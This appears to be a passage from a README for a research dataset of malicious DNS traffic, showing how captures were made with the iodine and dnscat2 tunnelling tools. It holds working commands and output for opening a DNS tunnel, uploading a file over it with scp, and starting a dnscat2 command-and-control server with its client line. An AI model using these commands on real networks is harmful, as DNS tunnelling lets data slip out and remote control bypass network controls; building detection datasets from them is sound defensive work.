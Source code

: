 ```bash
sudo docker run --cap-add=NET_ADMIN --device=/dev/net/tun --network=host -it dmachard/iodine:latest client -f -r 8.8.8.8 tun.example.com
Enter tunnel password: 
Opened dns0
Opened IPv4 UDP socket
Sending DNS queries for tun.example.com to 8.8.8.8
Autodetecting DNS query type (use -T to override).
Using DNS type NULL queries
Version ok, both using protocol v 0x00000502. You are user #0
Setting IP of dns0 to 10.0.0.2
Setting MTU of dns0 to 1130
Server tunnel IP is 10.0.0.1
Skipping raw mode
Using EDNS0 extension
Switching upstream to codec Base128
Server switched upstream to codec Base128
No alternative downstream codec available, using default (Raw)
Switching to lazy mode for low-latency
Server switched to lazy mode
Autoprobing max downstream fragment size... (skip with -m fragsize)
768 ok.. 1152 ok.. 1344 ok.. 1440 ok.. 1488 ok.. 1512 ok.. 1524 ok.. will use 1524-2=1522
Setting downstream fragment size to max 1522...
Connection setup complete, transmitting data.
```

Upload a local file to remote side

```bash
$ sudo scp /tmp/wireshark_wlp2s0IJSF71.pcapng root@10.0.0.1:/tmp
The authenticity of host '10.0.0.1 (10.0.0.1)' can't be established.
ED25519 key fingerprint is SHA256:n1Tj0bCqHpZswnjP92E33SoCQL4nj3pRKwS1qHB2RqY.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.0.0.1' (ED25519) to the list of known hosts.
root@10.0.0.1's password: 
wireshark_wlp2s0IJSF71.pcapng                   36% 3504KB 304.9KB/s   00:19 ETA
```

### DNSCat2

Resume:
- Github URL: https://github.com/iagox86/dnscat2
- Qtype DNS used: TXT, CNAME, MX
- Network capture: https://github.com/dmachard/datasets-malicious-dns/blob/main/dnscat2.pcap

Run server side

```bash
# sudo docker run -p 53:53/udp -it --rm dmachard/dnscat2:latest server biillpi.com

New window created: 0
New window created: crypto-debug
Welcome to dnscat2! Some documentation may be out of date.

auto_attach => false
history_size (for new windows) => 1000
Security policy changed: All connections must be encrypted
New window created: dns1
Starting Dnscat2 DNS server on 0.0.0.0:53
[domains = biillpi.com]...

Assuming you have an authoritative DNS server, you can run
the client anywhere with the following (--secret is optional):

  ./dnscat --secret=e9829a2263f0c5ca10c8024dd551691f biillpi.com

```